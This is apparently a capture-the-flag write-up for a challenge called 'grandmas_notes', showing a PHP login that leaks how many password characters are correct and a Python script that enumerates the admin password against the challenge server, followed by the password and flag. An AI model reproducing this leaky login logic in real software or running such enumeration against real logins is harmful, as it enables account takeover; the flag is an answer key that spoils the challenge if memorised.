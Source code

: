 #  grandmas_notes

```
@gehaxelt

My grandma is into vibe coding and has developed this web application to help her remember all the important information. It would work be great, if she wouldn't keep forgetting her password, but she's found a solution for that, too.
http://52.59.124.14:5015 
```

A web application is provided in the attachment. The login logic tells us the number of correct characters:

```php
$correct = 0;
$limit = min(count($chars), count($stored));
for ($i = 0; $i < $limit; $i++) {
    $enteredCharHash = sha256_hex($chars[$i]);
    if (hash_equals($stored[$i]['char_hash'], $enteredCharHash)) {
        $correct++;
    } else {
        break;
    }
}
$_SESSION['flash'] = "Invalid password, but you got {$correct} characters correct!";
```

So we just enumerate each password character to find the correct password:

```python
import requests

password = ""
for i in range(20):
    password += " "
    for ch in "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789":
        password = password[:-1] + ch
        print(password)
        r = requests.post(
            "http://52.59.124.14:5015/login.php",
            data={"username": "admin", "password": password},
        )
        if "characters correct!" in r.text:
            parts = r.text.split(" ")
            count = int(parts[parts.index("characters") - 1])
            if count == len(password):
                break
        else:
            print(password, r.text)
            exit(0)
```

The correct password for `admin` is `YzUnh2ruQix9mBWv`.

Get flag: `ENO{V1b3_C0D1nG_Gr4nDmA_Bu1ld5_InS3cUr3_4PP5!!}`.

